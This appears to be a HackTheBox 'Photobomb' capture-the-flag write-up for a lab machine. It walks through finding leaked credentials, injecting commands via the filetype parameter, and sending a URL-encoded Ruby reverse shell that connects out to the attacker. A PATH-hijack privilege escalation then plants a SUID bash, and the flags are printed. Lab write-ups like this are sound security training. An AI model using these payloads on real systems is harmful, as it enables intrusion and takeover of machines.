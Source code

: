 ```yaml
---
title: "Photobomb"
date: 2023-01-11T14:15:25+08:00
draft: false
author: "Jack Sun"
tags:
  - CTFs
  - Writeups
  - HackTheBox
  - Cybersecurity
image: /images/writeups/HTB/photobomb/banner.png
---
```


## Description

- 20 pts, Easy
- Written by `slartibartfast`

## User Flag

First thing first, add an entry to the `/etc/hosts` file with

```sh
echo "<ip address> photobomb.htb" >> /etc/hosts
```

Running nmap on the domain, we can see that there are 2 ports exposed:

- Web server on port 80
- SSH on 22

![nmap](/images/writeups/HTB/photobomb/nmap.png)

Checking out the web server on port 80, we are greeted with the website for a photo printing service called Photobomb.

![Click Here](/images/writeups/HTB/photobomb/index.png)

There is a link called `click here!` on the website, which points to another webpage. However this route is protected by a login form.

![Login](/images/writeups/HTB/photobomb/login.png)

Without the credentials, we are greeted with a `401` NGINX error page.

Checking out the the source code, we find a javascript file called `photobomb.js` containing the following:

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

From this, we find the tech support credentials: `pH0t0:b0Mb!`, which we can manually enter into the login form or use the url `http://pH0t0:b0Mb!@photobomb.htb/` to automatically authenticate ourselves.

Unfortunately, I note here that the tech support credentials do not work for the SSH service that we found earlier through the nmap scan.

Anyways, now that have the tech support logins, we can navigate to the `/printer` route. Upon inspection, there is a download form at the bottom that allows for the selected image to be resized and downloaded.

Let's fire up Burp Suite and intercept that download request!

![Burp](/images/writeups/HTB/photobomb/burp.png)

We can see that the request uses the `POST` method. The URL encoded form data contains 3 parameters:

- `photo`
- `filetype`
- `dimensions`

I initially tried to manipulate the `photo` parameter in hopes of getting some form of path traversal or arbitrary file read, however, this proved unsuccessful.

I noted that if I sent a blank request, the server would return a debug page.

![blank_request](/images/writeups/HTB/photobomb/blank_request.png)

![error](/images/writeups/HTB/photobomb/error.png)

From this, I was able to determine that the server is running the Sinatra Ruby framework. I then tried searching for CVEs related to Sinatra to no success.

After sending the request to Burp Repeater and fuzzing all the parameters, I noticed that the server was returning a `500` error code when certain characters such as `'`, `"`, `$`, `;` were added after jpg in the `filetype` parameter. This could be an indication of a Remote Code Execution vulnerability.

This hypothesis can be tested by sending a test URL encoded payload such as `jpg;sleep%20100` on the filetype parameter. After sending the payload, we can see that the request takes a long time to complete, eventually timing out, thus confirming that our payload is being executed on the server and that a Remote Code Execution vulnerability exists.

Next, we will try to pop a reverse shell on the server so we can capture the user flag. I went to [revshells.com](https://www.revshells.com/) and tried a few payloads. Of course, we must URL Encode the payload as we are sending it as a form parameter. The `Ruby #1` payload seemed to work in this instance:

```ruby
ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.XX.XX.XX%22%2C4444%29%29%27
```

After starting a reverse shell listener on my machine, I sent the payload to the server and after a while, I caught a reverse shell. Running `whoami`, we can see that we have taken over the account of `wizard`.

![whoami](/images/writeups/HTB/photobomb/whoami.png)

Next we can upgrade the shell to a TTY with python. `python -c 'import pty; pty.spawn("/bin/bash")'` complained that python was not installed. I tried again with `python3` and it worked.

![upgrade](/images/writeups/HTB/photobomb/upgrade.png)

After changing into the home directory via `cd ~`, we find a file called `user.txt` containing the user flag.

![user flag](/images/writeups/HTB/photobomb/userflag.png)

User flag: `c2b4e704eecdabe4cba7c012ce9c8fe6`

## Root Flag

Running `sudo -l`, we see that `wizard` can run a peculiar script `/opt/cleanup.sh` as root without a password.

! [sudo](/images/writeups/HTB/photobomb/sudo.png)

Catting out the contents of the script gives us the following:

```sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Immediately, I noticed that `find` is not called explicitly with its full path like the other commands. This is vulnerable to a `PATH` variable manipulation attack. We can inject a malicious path into the PATH variable before `/usr/bin` containing a malicious script called `find`. Then, when we execute `/opt/cleanup.sh`, it will execute our malicious `find` script instead of the original `find` program in `/usr/bin`.

Inside `/tmp/find`, we can write a simple script to install a privileged bash shell with the SUID bit set in `/tmp` and then run `/opt/cleanup.sh`. I have adapted the installation command from [GTFO Bin](https://gtfobins.github.io/gtfobins/bash/#suid) as below for our purposes:

```sh
install -m =xs $(which bash) /tmp/bash
```

After doing so, we give the script execute permission with `chmod +x ./find`. We can now run `sudo PATH=/tmp:$PATH /opt/cleanup.sh`, which will in turn execute our malicious script.

![install](/images/writeups/HTB/photobomb/install.png)

We can now spawn a root bash shell with `/tmp/bash -p`. Running `whoami` confirms that we are root.

![root](/images/writeups/HTB/photobomb/root.png)

Next, we can navigate to `/root` and capture the root flag.

![root flag](/images/writeups/HTB/photobomb/rootflag.png)

Root flag: `899b78ed71f3a29a23df770acc5ce2fa`
